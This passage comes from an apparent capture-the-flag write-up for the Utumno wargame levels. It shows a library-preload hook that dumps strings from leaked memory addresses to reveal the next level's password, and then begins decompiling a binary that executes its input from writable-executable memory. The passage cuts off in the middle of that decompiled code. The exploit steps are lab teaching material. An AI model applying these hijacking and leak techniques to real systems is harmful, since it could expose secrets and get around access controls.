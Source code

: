 ```bash
utumno0@utumno:/tmp/.work$ LD_PRELOAD=/tmp/.work/preload.so /utumno/utumno0
0xf7fdabb0 0xffffd3a0 0xf7fbd169 0x804907d 0xf7fa8e34 0xffffd378 0x804917d 0x804a01d 0x804a008 (nil) 0xf7d9ccb9 0x1 0xffffd434 0xffffd43c 0xffffd3a0
```
There are a few notable addresses leaked here, most of them are kernel or library addresses, however `0x804907d`, `0x804917d`, `0x804a01d`, and `0x804a008` are addresses that the process has access to.\
We can modify the C script again to try read string values from these addresses.

```c
#include <stdio.h>
#include <stdlib.h>

int puts ( const char * str ) {
        unsetenv("LD_PRELOAD");
        printf("%s\n", 0x804907d);
        printf("%s\n", 0x804917d);
        printf("%s\n", 0x804a01d);
        printf("%s\n", 0x804a008);
        return 0;
}
```
Again, compiling the script into a **Shared Object** and running the binary again with **LD_PRELOAD** it leaks the password for the next challenge.

```bash
utumno0@utumno:/tmp/tasks$ LD_PRELOAD=/tmp/tasks/preload.so /utumno/utumno0
Read me! :P
password: y[REDACTED]L
```

---
---
## Utumno1 Solution
**Username:** utumno1\
**Password:** [REDACTED]

### Disassembly:
```c
int32_t run(void* p)
{
    void* gsbase;
    int32_t eax_1 = *(gsbase + 0x14);
    strncpy(rwx, p, 0x1000);
    __return_addr = rwx;
    
    if (eax_1 == *(gsbase + 0x14))
        return eax_1 - *(gsbase + 0x14);
    
    __stack_chk_fail();
    /* no return */
}

int main(int argc, char** argv)
{
    if (!argv[1])
    {
        exit(1);
        /* no return */
    }
    
    rwx = mmap(nullptr, 0x1000, 7, 0x22, 0xffffffff, 0);
    
    if (!rwx)
```